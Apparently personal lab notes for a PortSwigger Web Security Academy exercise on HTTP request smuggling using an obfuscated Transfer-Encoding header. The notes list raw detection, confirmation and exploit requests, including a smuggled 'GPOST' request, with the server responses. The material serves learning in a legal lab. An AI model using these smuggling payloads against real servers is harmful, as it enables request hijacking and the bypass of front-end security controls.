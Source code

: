 https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

# Detection
![[Detection HTTP Request Smuggling.png]]
Detecting Front-end 
``` HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```
Got: 
```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
What is happening:
![[Invalid Chunk SIze.png]]
Frontend is using TE

Detecting what the backend is using

```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```
Got a **200 OK**
What is happening:
![[TE TE Detection.png]]

![[TE Header Obfuscations.png]]Add a second malformed Transfer-Encoding. 
```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

X

```
![[TE Obfuscation visual.png]]
Causes the backend to timeout and **500 Internal Server Error**

# Confirming
Now we can exchange the lab to a TE.CL vulnerability.
```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

1
G
0


```
>**200 OK**

Immediately send a normal request:
```HTTP
POST / HTTP/2
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar

```
Got **"Unrecognized method G0POST"**
![[TE.TE confirmation.png]]


# Crafting the exploit request

#### Updating the Content-Length of the smuggled request

Determining the minimum value for the smuggled request. 
>Adding one (+1) to the smugled request body so it can append to normal request.

![[Pasted image 20250818135755.png]]

#### Fixing the Chunk Size
![[Pasted image 20250818140740.png]]

#### Fixing the first Content-Length
![[Pasted image 20250818141150.png]]

# Exploiting
```HTTP
POST / HTTP/1.1
Host: 0a3400f70367a7d68109ed3b007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

x=1
0


```
**200 OK**

Immediately send the normal request:
```
POST / HTTP/2
Host: 0a3400f70367a7d68109ed3b007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar
```
Got the **"Unrecognized method GPOST"**

